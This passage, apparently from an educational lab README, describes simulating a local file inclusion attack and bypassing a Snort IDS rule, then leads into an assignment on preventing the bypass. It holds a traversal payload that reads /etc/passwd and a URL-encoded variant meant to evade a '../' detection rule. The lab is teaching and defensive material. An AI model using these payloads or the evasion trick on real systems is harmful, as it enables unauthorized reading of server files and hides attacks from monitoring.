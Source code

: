 2. LFI Attack Simulation
  - Example URL:
```yml
http://domain.tld/index.php?file=../../../etc/passwd
```
  - Description: Attempts to access the file /etc/passwd by using ../ to traverse directories.

3. Bypassing the IDS Rule
  - URL Encoding:
      - Encode the payload to avoid detection by the content:"../" rule.

```yml

# URL Encoding

. => %2E

/ => %2F

http://domain.tld/index.php?file=%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd

```

  - Bypass Explanation:
- Encoded Characters:
- . becomes %2E.
- / becomes %2F.
  - Result: The encoded payload (%2E%2E%2F) bypasses the IDS rule by avoiding a direct match with ../.
 

4. Testing the Setup
  - Start Snort:
```yml
snort -A console -q -i eth0 -c /etc/snort/snort.conf
```
  - Send a Request: Use a browser or curl to access the encoded URL.
  - Check Alerts: Review Snort logs to verify detection or bypass success.

## Notes
- Ensure that Nginx and Snort are properly configured and running before testing.
- Use this guide for educational purposes only in a controlled environment.




<br>
<br>



## Assignment-2 : Prevent the Above ByPass IDS

<br>
<br>

